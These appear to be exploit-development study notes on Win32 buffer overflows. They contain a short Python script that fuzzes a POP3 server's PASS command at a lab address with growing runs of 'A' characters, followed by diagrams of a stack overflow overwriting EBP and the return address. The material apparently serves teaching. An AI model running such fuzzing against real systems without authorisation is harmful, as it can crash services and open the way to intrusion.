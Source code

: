 ```py
#!/usr/bin/env python

import socket
string = 'A'

for i in range(100, 10000, 200):
    print 'Fuzzing PASS with {} bytes'.format(i)
    s = socket.socket()
    s.connect(('192.168.1.23', 110))
    s.recv(1024)
    s.send('USER test\r\n')
    s.recv(1024)
    s.send('PASS {}\r\n'.format(string * i))
    s.send('QUIT\r\n')
    s.close()
```

# Win32 Buffer Overflows

Stack overflow simulation

```
ESP -> 1000 .... \
       1001 .... |- # Current function
       1002 .... |
       1003 .... /
EBP -> 1003 100A # Previous EBP further down
       1004 3AFD # Return address to previous calling function
       1005 ....
       1006 ....
```

```
ESP -> 1000 AAAA \
       1001 AAAA |- # Current function
       1002 AAAA |
       1003 AAAA /
EBP -> 1003 AAAA # Previous EBP further down
       1004 BBBB # Return address to previous calling function
       1005 CCCC
       1006 ....
```

```
# Function completes, and starts cleaning up.
# leave (mov esp, ebp)

       1000 AAAA \
       1001 AAAA |- # Current function
       1002 AAAA |
       1003 AAAA /
EB/SP->1003 AAAA # Previous EBP further down
       1004 BBBB # Return address to previous calling function
       1005 CCCC
       1006 ....
```
